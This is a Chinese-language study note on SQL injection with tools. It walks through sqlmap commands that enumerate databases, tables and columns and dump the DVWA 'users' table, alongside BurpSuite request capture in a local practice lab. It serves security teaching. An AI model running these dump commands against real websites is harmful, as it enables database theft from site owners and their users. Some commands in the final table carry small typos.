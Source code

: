 ```yaml
---
title: 2-SQL工具注入(low)
updated: 2024-01-29T12:39:40.0000000+08:00
created: 2020-08-26T21:41:18.0000000+08:00
---
```


## 一、SQL注入漏洞
1，SQL语言：数据库操作语言（增删改查）
数据库存储的是网站的相关信息
数据库信息泄露：拖库--把网站的数据库拖走了
2，SQL注入漏洞的利用方式
--手工注入

--工具注入--SQLMAP
3，SQL工具注入
## 二、工具介绍
### 1，SQLMAP使用
（1）安装**python**,**sqlmap。在sqlmap.py打开cmd，进行操作**
（2）SQLMAP利用方式
![image1](../../assets/edb833da840a40879139c33e602de500.png)
注意：
| 网址-u |
|--------|
| 文件-r |
查看漏洞
| E:\安全工具\sqlmap1.4.3-11\sqlmap\>python sqlmap.py -u "网址" |
|---------------------------------------------------------------|
i-先去拿这个网站的数据库
| E:\安全工具\sqlmap1.4.3-11\sqlmap\>python sqlmap.py -u "网址" **--current-db** |
|--------------------------------------------------------------------------------|
Ii-再拿取这个网站数据库中的数据表
| E:\安全工具\sqlmap1.4.3-11\sqlmap\>python sqlmap.py -u "网址" **-D 数据库名 --tables** |
|----------------------------------------------------------------------------------------|
Iii-然后再获取这张数据表中的数据列
| E:\安全工具\sqlmap1.4.3-11\sqlmap\>python sqlmap.py -u "网址" **-D 数据库名 -T 表名 --columns** |
|-------------------------------------------------------------------------------------------------|
Iv-拿取数据
| E:\安全工具\sqlmap1.4.3-11\sqlmap\>python sqlmap.py -u "网址" **-D 数据库名 -T 表名 -C 列名（可多个）--dump** |
|---------------------------------------------------------------------------------------------------------------|
### 2，抓包BurpSuite
安全工具--抓包--BurpSuite
代理软件 网站代理
四大功能--拦截、抓包、改包、重放
## 三、准备工作
### 1，查看ip地址
鼠标右键单击开始菜单选择运行，在运行窗口中输入cmd点击确定，接着在输入ipconfig按下回车键，之后我们就可以看到ip地址了。
![image2](../../assets/6ff560d9d72a4f92bd5842bdfd71c352.png)
### 2，修改网络端口
![image3](../../assets/be79243e23e64b769758ef28a407b54f.png)
3，r+windows drivers 打开host ，将127.0.0.1 修改为ip地址
4，把安全等级设置为low
## 三、SQL工具注入(low)
1，打开BurpSuite后进行SQL Injection
![image4](../../assets/a083a2c954ae48c89f04440dac2c016d.png)

<table>
<colgroup>
<col style="width: 100%" />
</colgroup>
<thead>
<tr class="header">
<th><p>备注：之前的错误操作</p>
<p>访问http://127.0.0.1/DVWA-master/login.php，得到</p>
<p>![image5](../../assets/8441a3e6da424022849aed321302edbe.jpg)</p>
<p>问了助教后得知：修改了“hosts”所以不能使用127.0.0.1，得使用本机的IP地址。</p></th>
</tr>
</thead>
<tbody>
</tbody>
</table>
2, save item 导出到桌面，命名7.txt
安装python环境，下载sqlmap包，按照如下命令执行查看漏洞
如果是文件，则“-r”；如果是网站，则“-u”
![image6](../../assets/ea837b385782469ca13cd7c75d8b9680.png)

| --current-db                             |
|------------------------------------------|
| -D dvwa -tables                          |
| -D dvwa -T users -columns                |
| -D dvwa -T users C users, password -dump |

